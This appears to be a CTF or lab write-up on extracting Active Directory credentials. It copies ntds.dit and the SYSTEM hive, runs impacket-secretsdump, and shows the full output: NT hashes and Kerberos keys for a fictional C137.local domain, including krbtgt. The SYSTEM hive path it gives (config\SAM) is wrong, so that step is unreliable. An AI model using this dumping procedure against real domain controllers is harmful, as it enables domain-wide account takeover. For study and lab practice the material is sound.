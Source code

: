 [What is NTDS.DIT?](https://medium.com/@harikrishnanp006/understanding-ntds-dit-the-core-of-active-directory-faac54cc628a)
> NTDS.DIT stands for New Technology Directory Services Directory Information Tree. It serves as the primary database file within Microsoft’s Active Directory Domain Services (AD DS). Essentially, NTDS.DIT stores and organizes all the information related to objects in the domain, including users, groups, computers, and more. It acts as the backbone of Active Directory, housing critical data such as user account details, passwords, group memberships, and other object attributes.
### Exploit
1. Export NTDS.DIT & SYSTEM
    NTDS.DIT在Domain Server的`C:\Windows\NTDS\ntds.dit`，而SYSTEM在`C:\Windows\System32\config\SAM`
2. 用Kali裡面的[`impacket-secretsdump`](https://www.kali.org/tools/impacket/)轉成hash
    :::spoiler Result
    ```bash
    $ impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL -outputfile hashes.txt
    Impacket v0.11.0 - Copyright 2023 Fortra

    [*] Target system bootKey: 0xdfa37c24984935de32e2063e02918c28
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Searching for pekList, be patient
    [*] PEK # 0 found and decrypted: 6e884ac48cd2aa3a8d5f50c64d4bc38a
    [*] Reading and decrypting hashes from ntds.dit 
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:10e63d3f2c9924bae49241cff847e405:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    CITADEL-DC01$:1001:aad3b435b51404eeaad3b435b51404ee:33c082748b7d35ec846a513b7be92d94:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:25c9610b742a5bca9aa3801c08b8ca4e:::
    C137.local\jerrysmith:1104:aad3b435b51404eeaad3b435b51404ee:bc51f858ccacc9db408c0ba511d5d639:::
    C137.local\summersmith:1105:aad3b435b51404eeaad3b435b51404ee:26b2cc706093c4fa46e0519ec5feaeaf:::
    C137.local\ricksanchez:1106:aad3b435b51404eeaad3b435b51404ee:746447f27820a9d863eea94d176cc135:::
    C137.local\mortysmith:1108:aad3b435b51404eeaad3b435b51404ee:dc8b282b8f4e1dd3c5f95fd491ff6d8d:::
    C137.local\bethsmith:1109:aad3b435b51404eeaad3b435b51404ee:b9cc9177094af2e17b413a0cbf63fac2:::
    C137.local\birdman:1118:aad3b435b51404eeaad3b435b51404ee:944055b77ebe7d6fd80f24b5fce634fb:::
    DESKTOP-SDN1RPT$:1602:aad3b435b51404eeaad3b435b51404ee:fa6ecdc900cbeeb623cfc92297e5b653:::
    [*] Kerberos keys from ntds.dit 
    CITADEL-DC01$:aes256-cts-hmac-sha1-96:3635b6b22a960673e327ca4c378e162befa74ee56e46b3841b84cabecfc062e8
    CITADEL-DC01$:aes128-cts-hmac-sha1-96:9324dad1f82699bf65cdbfd5a4572067
    CITADEL-DC01$:des-cbc-md5:94abfd29f1929d19
    krbtgt:aes256-cts-hmac-sha1-96:141aca9186cc33caa6ef3db5cf3a53b783bd29e7431a153c89f8b1d4562de7f1
    krbtgt:aes128-cts-hmac-sha1-96:d695009f7f7b6eb48a6b1b749493f199
    krbtgt:des-cbc-md5:b025018c62ec023b
    C137.local\jerrysmith:aes256-cts-hmac-sha1-96:87eb9c5715de1eb078cc6691871672019356976f093348c03b0ca21a75fc0e9f
    C137.local\jerrysmith:aes128-cts-hmac-sha1-96:ea468a0f250c15fea4e8f4c74d20c56e
    C137.local\jerrysmith:des-cbc-md5:7c40d03464e5e9a8
    C137.local\summersmith:aes256-cts-hmac-sha1-96:38060a9e953e8dde6e991db5de72e566c8a652c195b0e88d9c81e26d05ee1ce5
    C137.local\summersmith:aes128-cts-hmac-sha1-96:8851e24f50c80026e2e1578a2a3d3802
    C137.local\summersmith:des-cbc-md5:3bd09e3b73bfb0f4
    C137.local\ricksanchez:aes256-cts-hmac-sha1-96:08bc14d8f69e1ceadd0079303cd1bc434ed61d6a4895f71073662ff24eb8e4dd
    C137.local\ricksanchez:aes128-cts-hmac-sha1-96:0c428543d20db44c45cbf6948b4cf5d4
    C137.local\ricksanchez:des-cbc-md5:cdf891a75889f107
    C137.local\mortysmith:aes256-cts-hmac-sha1-96:ee5442baa6535d2580ac694ac6c0cbe3a65f137ba3ace39a18cba58a160ce73c
    C137.local\mortysmith:aes128-cts-hmac-sha1-96:697ece25fd3cffbfa24d82ab9789596c
    C137.local\mortysmith:des-cbc-md5:3280f79b131aea4c
    C137.local\bethsmith:aes256-cts-hmac-sha1-96:1e98c29b4ba43d21d200bd1802ff5109c0549621931e2f3af0c0809099405b88
    C137.local\bethsmith:aes128-cts-hmac-sha1-96:ea3285637fe5bb216bcd5cd0cfbc6663
    C137.local\bethsmith:des-cbc-md5:151f891ff4cb6b4f
    C137.local\birdman:aes256-cts-hmac-sha1-96:f20039a71fad3a9a0a374c09e55f1d1bed1600c2329fee84aada8a502d903023
    C137.local\birdman:aes128-cts-hmac-sha1-96:6507f6ac1b4ec9c23e65d1528ec92ec1